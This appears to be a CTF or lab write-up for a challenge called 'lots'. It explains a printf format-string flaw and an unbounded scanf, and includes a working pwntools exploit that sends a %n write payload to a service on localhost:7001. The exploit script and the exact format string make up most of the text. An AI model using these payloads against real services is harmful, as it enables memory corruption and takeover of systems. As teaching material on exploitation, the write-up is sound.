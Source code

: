 lots
===========================

General overview of problems faced
-------------------------------------
- Had to learn about format strings and why they're exploitable

List of vulnerabilities
--------------------
1. A user controlled buffer is passed directly to a printf function without a format being passed
2. The scanf function is used without specifying a max length therefore there a buffer overflow is possible

Steps to exploit the format string
------------------
1. Get the printed pointer and calculate the address for printed address + 2 bytes
2. Send the following input: send one 'A' for alignment, send the printed address in little endian format, followed by the (printed address + 2 bytes), followed by your format string. The buffer is located at the 7th argument so the format string should be as follows: "%21053x%7$n%61960x%8$n"

Script/Command used
------------------
``` python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

A = 'A'

def format_n(arg_num, to_write = 0):
    return "%{}x%{}$n".format(to_write, arg_num)

def main():
    target = "localhost"
    port = "7001"

    r = remote( target, port )

    l = r.recvline().strip()[-10:]

    target_pointer = int(l, 16)

    offset = 1

    stack_arg_num = 7

    payload = (A * offset
        + p32(target_pointer)
        + p32(target_pointer + 2)
        + format_n(stack_arg_num, to_write=21053)
        + format_n(stack_arg_num + 1, to_write=61960)
    )

    r.sendline(payload)
    print r.recvrepeat()

def exp_2(): # buffer overflow
    # r <<< $(python -c 'print "A" * 512 + "FRND"')
    pass

if __name__ == '__main__':
    main()
```
